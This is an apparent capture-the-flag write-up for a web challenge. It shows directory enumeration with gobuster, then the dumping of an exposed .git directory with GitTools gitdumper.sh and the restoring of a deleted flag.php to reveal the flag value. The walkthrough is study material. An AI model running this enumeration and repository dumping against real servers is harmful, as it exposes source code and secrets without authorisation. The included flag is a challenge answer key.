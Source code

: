 ## Maximum Courage
```
Max prefers to learn by practicing and not just reading all day, so he set up a webserver and hopes it stays secret, can you prove it has a weakness?
```
- Link: http://35.197.204.100/maximum/

#### Solve:

- Step 1

    - By running the following command:
        ```commandline
        gobuster dir -u http://35.197.204.100/maximum/ -w /usr/share/wordlists/dirb/common.txt
        ```
    
    - The result of gobuster:
        ```
        /.hta (Status: 403)
        /.git/HEAD (Status: 200)
        /.htaccess (Status: 403)
        /.htpasswd (Status: 403)
        /index.php (Status: 200)
        ```
    
    - We are interested in the files with status *200*
        ```commandline
        /.git/HEAD
        ```
- Step 2

    - Dumping *.git* by using [GitTools](https://github.com/internetwache/GitTools.git) *Dumper*
        ```commandline
        ./gitdumper.sh http://35.197.204.100/maximum/.git/ MaximumCourage
        ```
        where MaximumCourage is the dest-dir
        
    - Extracting info manually
        
        by running
        ```commandline
        >> git status
      
        On branch master
        Changes not staged for commit:
        (use "git add/rm <file>..." to update what will be committed)
        (use "git restore <file>..." to discard changes in working directory)
        deleted:    flag.php
        deleted:    index.php
        no changes added to commit (use "git add" and/or "git commit -a")
        ```
        we see that there is a file named flag.php that we can restore
        
    - Restoring the flag
    
        by running
        ```commandline
        >> git restore flag.php
        >> ls
        flag.php
        ```
        now we see the flag.php file and we can use *cat* to read the file:
    
        ```
        >> cat flag.php
      
        You can't view this flag directly.
        <!-- PHP source doesn't appear on HTML comments -->
        <?php
        exit();
        die();
        $secret_key = 'be607453caada6a05d00c0ea0057f733';
        ?>
        ```
     
> **Flag: be607453caada6a05d00c0ea0057f733**